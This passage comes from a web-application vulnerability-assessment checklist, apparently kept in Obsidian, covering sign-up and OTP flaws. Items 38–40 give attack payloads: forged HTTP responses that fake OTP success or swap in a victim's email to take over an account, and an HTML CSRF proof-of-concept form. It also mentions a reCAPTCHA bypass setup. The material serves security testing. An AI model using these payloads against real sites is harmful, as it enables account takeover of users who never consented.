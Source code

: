 38. **If You Can Register By Using Mobile-Number, The Server Will Ask You about OTP So Try To Figure Out If OTP Will Expire OR Not, If Not There Is Issue Here:**

    - Payload:
      - `HTTP/1.1 200 OK
        Access-Control-Allow-Origin: https://www.company.com
        Access-Control-Allow-Credentials: true
        Content-Type: application/json; charset=utf-8
        Content-Length: length
        {
        "status" : 1 ,
        "message" : "OTP Matched Successfully"
        }`
    - Note: Investigate OTP expiration, response manipulation, and UUID tampering.
    - [ ] Done

39. **Try To Change Any UUID e.g. ID, Email OR Phone In The Response To UUID Of Victim Account While Intercepting Response Of Request Of The Sign Up:**

    - Payload:
      - `HTTP/1.1 200 OK
        Access-Control-Allow-Origin: https://www.company.com
        Access-Control-Allow-Credentials: true
        Content-Type: application/json; charset=utf-8
        Content-Length: length
        {
        "email" : "victim@gmail.com" ,
        "redirect" : "/dashboard"
        }`
    - Note: Try to change any UUID in the response to the UUID of the victim account.
    - [ ] Done

40. **If There Isn't CSRF Token OR Anti-CSRF, Try To Create CSRF PoC:**

    - Payload:
      - `<html>
        <body><form method="POST"
        action="https://www.company.com">
        <input type="text" value="me@gmail.com"
        name="email">
        <input type="text" value="Secrete" name="password">
        <input type="submit" value="Click">
        </form></body>
        </html>`
    - Note: If no CSRF token or protection is present, attempt to craft a CSRF PoC.
    - [ ] Done

#### Important Notes

- **Use Burp Suite:** Use Burp Suite for intercepting requests and responses, creating payloads, and setting up TLS Pass Through for Google reCAPTCHA bypass.
- **Collaborator Server:** Leverage Burp Collaborator for detecting back-end information, internal IPs, and blind XSS.
- **Security Best Practices:** Always follow security best practices and consult with your organization's security team before testing these techniques on production systems.

---

This enhanced checklist includes additional potential vulnerabilities and examples to provide a more comprehensive vulnerability assessment. Each item is marked with a checkbox for tracking progress in Obsidian.

